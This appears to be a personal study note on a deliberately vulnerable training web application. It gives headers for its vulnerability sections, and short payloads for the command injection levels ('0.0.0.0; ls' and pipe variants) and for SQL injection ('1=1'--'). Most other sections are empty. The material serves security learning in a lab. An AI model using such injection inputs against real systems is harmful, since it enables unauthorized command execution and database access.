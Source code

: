 # Brute Force
# Command Injection

Level: low

```bash
0.0.0.0; ls
```

![[Captura desde 2024-09-10 20-24-13.png]]

Level: medium

```bash
0.0.0.0 | ls
```

![[Captura desde 2024-09-10 20-33-30.png]]

Level: high

```bash
0.0.0.0|ls
```

![[Captura desde 2024-09-10 21-01-41.png]]

# CSTF

# File Inclusion

# File Upload

# Insecure CAPTCHA

# SQL Injection

```bash
1=1'--
```

![[Captura desde 2024-09-10 21-25-28.png]]

```html
<option value="1=1'--"></option>
```

![[Captura desde 2024-09-10 21-29-30.png]]

```bash

```



# SQL Injection (Blind)

# Weak Session IDs

# XSS (DOM)

# XSS (Reflected)

# XSS (Stored)

# CSP Bypass

# JavaScript
